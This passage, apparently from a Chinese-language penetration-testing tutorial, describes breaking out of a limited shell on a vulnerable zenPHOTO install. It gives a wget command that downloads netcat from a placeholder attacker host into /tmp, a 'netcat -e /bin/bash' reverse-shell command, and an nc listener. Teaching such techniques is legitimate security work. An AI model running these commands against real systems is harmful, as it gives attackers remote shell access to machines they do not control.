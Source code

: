 1.  zenPHOTO 已经有一个公开的漏洞正在运行，我们通过有限的 shell 获得了对它的访问：

![](img/71dccab9-1325-45e2-a316-cfc79f2add44.png)

1.  由于这是一个有限的 shell，我们尝试逃离它，并通过首先在系统上上传`netcat`，然后使用`netcat`来获取反向连接。

```
 wget x.x.x.x/netcat –o /tmp/netcat
```

![](img/97b42970-b8ee-49ba-b65b-0227a40cc547.png)

1.  现在我们可以使用以下命令进行反向连接：

```
 netcat <our IP > -e /bin/bash <port number>
```

![](img/0a0a6460-ac7c-438d-a887-d2fa62a4247a.png)

1.  看着我们的终端窗口，在那里我们设置了监听器，我们会看到一个成功的连接：

```
 nc –lnvp <port number>
```
